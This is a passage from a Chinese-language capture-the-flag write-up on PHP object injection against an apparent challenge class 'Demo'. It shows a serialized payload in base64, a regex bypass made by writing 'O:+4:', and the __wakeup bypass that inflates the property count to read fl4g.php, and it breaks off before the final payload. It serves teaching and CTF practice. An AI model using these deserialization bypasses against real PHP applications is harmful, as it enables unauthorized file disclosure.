 `Tzo0OiJEZW1vIjoxOntzOjEwOiIARGVtbwBmaWxlIjtzOjg6ImZsNGcucGhwIjt9`

#### 绕过正则匹配

直接传进去，果然被匹配到了

![](http://markdown.yeek.top/20200212001625.png)

不清楚正则匹配的话，在这个网站上([regextester](https://www.regextester.com/))可以知道匹配到的部分是前面的 `O:4:`

![](http://markdown.yeek.top/20200212011140.png)

可以在 `4` 前面加上 `+` 来绕过，因为在 php 语法中，`+4` = `4`

```php
print(4);
print("<br>");
print(+4);
print("<br>");
print(-4);
```



#### 利用漏洞，绕过 __wakeup

传入绕过正则匹配并编码后的载荷：

```
var?=TzorNDoiRGVtbyI6MTp7czoxMDoiRGVtbyAgZmlsZSI7czo4OiJmbDRnLnBocCI7fQ
```

果不其然的显示回 index.php 的源码了。

![](http://markdown.yeek.top/20200212003517.png)

这是因为 **反序列化 Demo 对象**后调用了 `__wakeup` 方法，重新将传入的 `fl4g.php` 设置为 `index.php` 了

```php
function __wakeup() { 
    if ($this->file != 'index.php') { 
        //the secret is in the fl4g.php
        $this->file = 'index.php'; 
    } 
} 
```



这个时候就要提到著名的反序列化漏洞了。

在之前，`O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}` 中的 `:1:` 是代表这个对象中有一个属性，上面的 [序列化和反序列化](#序列化和反序列化) 的最后一个例子也是同理，只不过在**构造方法**中多了一个 `data` 属性，所以是 `4` 。

<br>

`__wakeup` 漏洞就是与整个属性个数值有关。当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过 `__wakeup` 的执行。

因此最后的序列化是：
